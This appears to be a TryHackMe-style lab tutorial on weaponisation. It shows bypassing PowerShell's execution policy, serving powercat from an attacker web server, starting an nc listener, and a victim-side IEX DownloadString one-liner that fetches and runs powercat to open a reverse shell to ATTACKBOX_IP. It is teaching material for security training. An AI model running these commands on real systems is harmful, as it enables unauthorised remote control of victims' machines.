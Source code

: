 Bypass Execution Policy

Microsoft provides ways to disable this restriction. One of these ways is by giving an argument option to theÂ PowerShellÂ command to change it to your desired setting. For example, we can change it toÂ bypassÂ policy which means nothing is blocked or restricted. This is useful since that lets us run our ownÂ PowerShellÂ scripts.  

In order to make sure ourÂ PowerShellÂ file gets executed, we need to provide the bypass option in the arguments as follows,

CMD

```shell-session
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
Welcome to Weaponization Room!
```

Now, let's try to get a reverse shell using one of the tools written in PowerShell, which is powercat. On your AttackBox, download it from GitHub and run a webserver to deliver the payload.  

Terminal

```shell-session
user@machine$ git clone https://github.com/besimorhino/powercat.git
Cloning into 'powercat'...
remote: Enumerating objects: 239, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235
Receiving objects: 100% (239/239), 61.75 KiB | 424.00 KiB/s, done.
Resolving deltas: 100% (72/72), done.
```

Now, we need to set up a web server on that AttackBox to serve theÂ powercat.ps1 that will be downloaded and executed on the target machine. Next, change the directory to powercat and start listening on a port of your choice. In our case, we will be using portÂ 8080.

Terminal

```shell-session
user@machine$ cd powercat
user@machine$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

On the AttackBox, we need to listen on portÂ 1337Â usingÂ ncÂ to receive the connection back from the victim.

Terminal

```shell-session
user@machine$ nc -lvp 1337
```

Now, from the victim machine, we download the payload and execute it usingÂ PowerShellÂ payload as follows,

Terminal

```shell-session
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```

